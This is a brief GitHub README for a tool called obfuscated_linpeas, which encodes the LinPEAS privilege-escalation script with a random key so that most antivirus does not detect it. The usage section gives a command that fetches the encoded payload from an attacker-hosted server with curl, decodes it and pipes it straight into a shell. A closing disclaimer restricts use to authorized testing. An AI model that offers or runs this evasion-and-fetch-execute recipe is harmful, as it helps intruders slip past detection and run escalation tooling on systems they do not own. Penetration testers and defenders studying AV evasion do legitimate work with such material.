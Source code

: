 # obfuscated_linpeas
Just a quick setup to bypass most AV with LinPEAS
___
Run:
```bash
python3 encode.py linpeash.sh > encoded.txt
```
Fetch the generated password from the `encoded.txt` file (e.g. : `# Key: 3Wr9QKXC`)
Host `encoded.txt` and `decode.sh` and just use the decode usage command (e.g.: `curl http://your_host/encoded.txt | bash decode.sh -p 3Wr9QKXC | sh`)

Each encoding uses a new random key, unique signature every time.
Minimal Bash/Perl decoder to avoid detection.
Works over HTTP, supports stdin piping.
___
This tool is intended for educational and authorized security testing purposes only.
Unauthorized use of obfuscation techniques like this to bypass detection or execute payloads on systems without explicit permission is illegal and unethical.
